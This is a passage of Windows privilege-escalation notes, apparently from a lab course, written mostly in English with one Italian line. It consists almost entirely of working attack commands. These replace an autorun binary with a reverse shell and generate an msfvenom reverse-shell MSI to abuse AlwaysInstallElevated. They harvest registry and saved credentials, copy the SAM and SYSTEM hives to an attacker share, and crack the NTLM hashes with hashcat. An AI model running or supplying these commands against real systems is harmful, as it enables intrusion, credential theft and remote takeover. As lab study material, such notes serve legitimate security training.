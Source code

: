 Enumerate AutoRuns processes.
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```
Then we can compromise the list and add a payload to be executed when an administrator login into the machine.

#### Registry - AlwaysInstallElevated
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Note that both keys are set to 1 (0x1)
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```
```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
#### Passwords - Registry

The registry can be searched for keys and values that contain the word "password":
```
reg query HKLM /f password /t REG_SZ /s
```
If you want to save some time, query this specific key to find admin AutoLogon credentials:
```
reg query "HKLM\Software\Microsoft\WindowsNT\CurrentVersion\winlogon"
```
On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):
```
winexe -U 'admin%password' //10.10.207.177 cmd.exe
```
#### Passwords - Saved Credentials
```
cmdkey /list
```
```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```
exploitiamo il fatto che le credenziali siano salvate sul sistema e proviamo a far partire la reverse shell come amministratori 

### Passwords Security Account Manager (SAM)

Transfer the SAM and SYSTEM files to your Kali VM:
```
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\ copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```
On Kali, clone the creddump7 repository (the one on Kali is outdated and will not dump hashes correctly for Windows 10!) and use it to dump out the hashes from the SAM and SYSTEM files:
```
git clone https://github.com/Tib3rius/creddump7 pip3 install pycrypto python3 creddump7/pwdump.py SYSTEM SAM
```
Crack the admin NTLM hash using hashcat:
```
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```
You can use the cracked password to log in as the admin using winexe or RDP.
